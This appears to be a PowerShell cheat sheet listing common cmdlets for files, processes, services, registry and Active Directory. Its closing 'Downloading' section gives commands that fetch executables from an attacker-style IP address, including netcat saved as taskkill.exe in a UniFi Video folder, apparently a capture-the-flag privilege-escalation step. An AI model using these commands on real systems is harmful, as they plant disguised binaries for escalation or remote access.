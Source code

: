 ## PowerShell Basics

-   `Get-Help`: Get information about PowerShell cmdlets and concepts
-   `Get-Command`: Get a list of all available cmdlets
-   `Get-Member`: Get information about the properties and methods of an object
-   `Clear-Host`: Clear the console screen

## Navigation

-   `Get-Location`: Display the current location (equivalent to `pwd` in bash)
-   `Set-Location`: Change the current location (equivalent to `cd` in bash)
-   `Push-Location`: Push the current location onto a stack, so you can navigate back to it later
-   `Pop-Location`: Pop the top location off the stack and navigate to it

## Working with Files and Folders

-   `Get-ChildItem`: List the contents of a folder (equivalent to `ls` in bash)
-   `New-Item`: Create a new file or folder
-   `Remove-Item`: Delete a file or folder
-   `Copy-Item`: Copy a file or folder to a new location
-   `Move-Item`: Move a file or folder to a new location
-   `Get-Item`: Display the properties of a file or folder

## Working with Text

-   `Get-Content`: Read the contents of a file (equivalent to `cat` in bash)
-   `Set-Content`: Overwrite the contents of a file
-   `Add-Content`: Append text to the end of a file
-   `Out-File`: Send output to a file

## Working with Variables

-   `$variable`: Access the value of a variable
-   `$variable = "value"`: Set the value of a variable
-   `${variable}`: Use a variable inside a string
-   `$(expression)`: Evaluate an expression and include the result in a string

## Working with Loops

-   `ForEach-Object`: Perform an operation on each item in a collection
-   `While`: Repeat a block of commands while a condition is true
-   `Do..While`: Repeat a block of commands while a condition is true (execute the block of commands at least once)
-   `Do..Until`: Repeat a block of commands until a condition is true (execute the block of commands at least once)

## Working with Conditional Statements

-   `If`: Execute a block of commands if a condition is true
-   `Else`: Execute a block of commands if the previous `If` condition was false
-   `ElseIf`: Check an additional condition if the previous `If` condition was false

## Working with Functions

-   `function`: Define a function
-   `param()`: Declare one or more parameters for a function
-   `return`: Return a value from a function

## Working with Processes

-   `Get-Process`: Get a list of running processes
-   `Start-Process`: Start a new process
-   `Stop-Process`: Stop a running process

## Working with Services

-   `Get-Service`: Get a list of services
-   `Start-Service`: Start a service
-   `Stop-Service`: Stop a service

## Working with Event Logs

-   `Get-EventLog`: Get a list of event logs
-   `Get-EventLog -LogName "System"`: Get a list of events in the "System" event log
-   `Get-EventLog -LogName "System" -Newest 10`: Get the 10 newest events in the "System" event log

## Working with the Registry

-   `Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion`: Get the properties of a registry key
-   `Set-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion -Name "ProgramFilesDir" -Value "C:\Program Files"`: Set the value of a registry key property

## Working with Active Directory

-   `Get-ADComputer`: Get a list of computers in Active Directory
-   `Get-ADUser`: Get a list of users in Active Directory
-   `Get-ADGroup`: Get a list of groups in Active Directory
-   `New-ADUser`: Create a new user in Active Directory
-   `Set-ADUser`: Modify an existing user in Active Directory
-   `Remove-ADUser`: Delete an user from Active Directory

## Working with Networking

-   `Test-Connection`: Test connectivity to a remote host
-   `Get-NetIPAddress`: Get a list of IP addresses on the local machine
-   `Get-NetIPConfiguration`: Get the IP configuration of the local machine
-   `Get-NetRoute`: Get the routing table of the local machine
-   `Resolve-DnsName`: Resolve a DNS name to an IP address

## Downloading 

* `Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"`
* `wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"`
* `(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")`
